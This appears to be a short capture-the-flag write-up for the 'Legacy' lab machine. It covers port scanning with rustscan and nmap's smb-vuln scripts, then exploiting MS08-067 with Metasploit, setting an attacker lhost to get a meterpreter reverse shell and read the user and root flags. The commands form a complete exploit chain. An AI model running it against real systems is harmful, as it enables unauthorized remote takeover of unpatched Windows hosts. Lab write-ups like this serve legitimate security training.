 # ****10.10.10.3 - Legacy****

```bash
rustscan -a 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d5a20a01-fc19-4129-b59f-8d1568842e27)


```bash
nmap -A -p 135,139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecfa94ea-8cee-4817-9c38-08353cc9988c)

```bash
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/eaecec0a-da46-4baa-9290-71ec247b74b3)

```bash
msfconsole
```
![image](https://github.com/lufffe/Writeups/assets/90646635/75399ce6-7f11-4306-a474-0ee600582817)

```bash
search ms08-067
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.17
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\John\Desktop

```bash
meterpreter > cat user.txt
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\Administrator\Desktop

```bash
meterpreter > cat root.txt
```
